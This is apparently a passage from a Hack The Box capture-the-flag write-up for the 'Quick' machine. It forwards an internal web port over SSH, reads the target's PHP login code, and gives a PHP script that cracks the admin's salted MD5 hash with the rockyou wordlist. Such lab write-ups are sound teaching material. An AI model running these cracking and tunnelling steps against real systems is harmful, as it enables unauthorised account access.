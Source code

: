 Because the virtual host is listening on port 80 and it's closed on the external
interface, we have to forward it to one of our ports, let's say 8080. We can do
it with SSH:
```
$ ssh -L 8080:localhost:80 -i sam sam@quick.htb
```

Let's add `127.0.0.1 printerv2.quick.htb` to `/etc/hosts` and now we can make
requests to `printerv2.quick.htb:8080` and they will be forwarded to the
localhost interface on `10.10.10.186`.

The homepage of the web site is a login:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/printerv2-login.png)

Let's read the source file on the remote machine:
```php
<?php
include("db.php");
if(isset($_POST["email"]) && isset($_POST["password"]))
{
        $email=$_POST["email"];
        $password = $_POST["password"];
        $password = md5(crypt($password,'fa'));
        $stmt=$conn->prepare("select email,password from users where email=? and password=?");
        $stmt->bind_param("ss",$email,$password);
        $stmt->execute();
        $result = $stmt->get_result();
        $num_rows = $result->num_rows;
        if($num_rows > 0 && $email === "srvadm@quick.htb")
        {
                session_start();
                $_SESSION["loggedin"]=$email;
                header("location: home.php");
        }
        else
        {
                echo '<script>alert("Invalid Credentials");window.location.href="/index.php";</script>';
        }
}
?>
```

It's basically hashing the password by adding `fa` as salt. Let's use a simple
script to bruteforce the admin password found in the database:
```php
<?php
$target = 'e626d51f8fbfd1124fdea88396c35d05';
$file = fopen('rockyou.txt', 'r');
while (!feof($file)) {
    $line = trim(fgets($file));
    $computed = md5(crypt($line,'fa'));
    if ($computed == $target) {
        echo 'Password found: ' . $line . "\n";
        exit();
    }
}
?>
```
